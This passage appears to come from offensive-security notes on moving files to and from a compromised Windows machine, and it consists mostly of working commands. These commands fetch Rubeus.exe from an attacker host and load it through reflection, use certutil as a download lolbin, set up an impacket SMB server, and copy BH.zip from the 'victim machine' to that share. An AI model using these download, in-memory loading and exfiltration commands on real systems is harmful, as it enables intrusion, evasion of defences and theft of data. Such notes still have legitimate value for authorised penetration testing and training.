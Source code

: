 There is yet another mode: `DownloadData`, which can be used when loading assemblies through reflection:

```console
PS C:\> $data = (New-Object System.Net.WebClient).DownloadData("http://192.168.56.2:8000/Rubeus.exe")
PS C:\> $assem = [System.Reflection.Assembly]::Load($data);
PS C:\> [Rubeus.Program]::MainString("currentluid")
```

The `New-Object System.Net.WebClient` approach works regardless of the version of PowerShell.

### 3. Certutil.exe

Example usage:

```console
PS C:\> certutil.exe -urlcache -split -f http://192.168.56.2:8000/Rubeus.exe
```

`certutil.exe` is perhaps the most popular lolbin for downloading files.  
Unlike the previous two, PowerShell is not needed; it can be used from Command Prompt.

## Exfiltrating from a Windows machine

### 1. SMB server

Install [impacket](https://github.com/fortra/impacket) because an SMB server is included in the package:

```console
inte@debian-pc:~$ python3 -m pip install --break-system-packages impacket
```

The `cap_net_bind_service` capability is needed over Python binary to bind lower ports without root privileges:

```console
inte@debian-pc:~$ sudo apt install libcap2-bin
inte@debian-pc:~$ sudo setcap 'cap_net_bind_service=+ep' /usr/bin/python3.12
```

Start the SMB server with credentials and `-smb2support` (it fails on newer machines without those options):

```console
inte@debian-pc:~$ smbserver.py -username inte -password hunter2 -smb2support ensemble `pwd`
```

Register the server on the victim machine and use it for exfiltration:

```console
PS C:\> net use \\192.168.56.2\ensemble hunter2 /user:inte
PS C:\> copy BH.zip \\192.168.56.2\ensemble\
```

### 2. WebDAV server
